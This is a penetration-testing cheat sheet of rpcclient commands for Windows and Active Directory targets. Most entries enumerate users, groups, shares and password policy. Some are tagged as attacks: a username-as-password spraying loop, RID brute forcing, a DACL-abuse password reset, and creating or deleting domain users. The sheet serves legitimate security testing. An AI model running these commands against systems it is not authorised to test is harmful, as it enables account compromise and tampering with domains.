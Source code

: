 # rpcclient

% rpcclient, rpc, windows

## connect with domain account
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' 
```
## connect with local account
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<user>%<pssword>' 
```
## help
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "help;quit"
```

## enumerate domain users
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "enumdomusers;quit"
```


## srvinfo
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "srvinfo;quit"
```

## get user sid
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "lookupnames <name>; wmic useraccount get name,sid; quit"
```

## domain info
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "querydominfo;quit"
```

## password policy
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "getdompwinfo;quit"
```

## enumerate net shares
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "netshareenum;netshareenumall;quit"
```


## get net share info
#plateform/linux #target/remote #cat/RECON 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "netsharegetinfo <share>;quit"
```

## Trying all username as password from list of users
#plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY  
```
for u in `cat <file>`; do echo -n "user: $u " && rpcclient -U "$u%$u" -c "getusername;quit" <ip>; done
```

## enum commands list
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "enum;quit"
```

## enumdomains (Current domain)
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "enumdomains;quit"
```

## enumerate domain groups
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "enumdomgroups;quit"
```

## query group information
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "querygroup <RID>;quit"
```

## query privileges
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "enumprivs;quit"
```

## query group membership
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "querygroupmem <RID>;quit"
```


## query user groups 
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "queryusersgroups <RID>;quit"
```

## query user/ computer information (name)
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "queryuser <user>;quit"
```

## query user/ computer information (RID)
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "queryuser <RID>;quit"
```

## enumerate local users (RID brute force)
#plateform/linux #target/remote #cat/RECON
```
for i in $(seq 500 1100);do rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "queryuser $(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```

## Get User Domain Password Information
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "getusrdompwinfo <RID>;quit"
```

## Local Users LSA Enum SID
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "lsaenumsid;quit"
```

## local Users Lookup SID
#plateform/linux #target/remote #cat/RECON
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "lookupsids <SID>;quit"
```

## change AD user password
#plateform/linux #target/remote #cat/ATTACK/DACL-ABUSE 
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "setuserinfo2 <user> 23 '<NEWPASSWORD>';quit"
```

## create domain user
#plateform/linux #target/remote #cat/EXPLOIT
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "createdomuser <user>;  setuserinfo2 <user> 24 '<password>';quit"
```

## delete domain user
#plateform/linux #target/remote #cat/EXPLOIT
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "deletedomuser <user>;quit"
```

## enumerate alias groups
#plateform/linux #target/remote #cat/EXPLOIT
```
rpcclient <ip> -U '<domain_netbios>\<user>%<pssword>' -c "enumalsgroups builtin;quit"
```
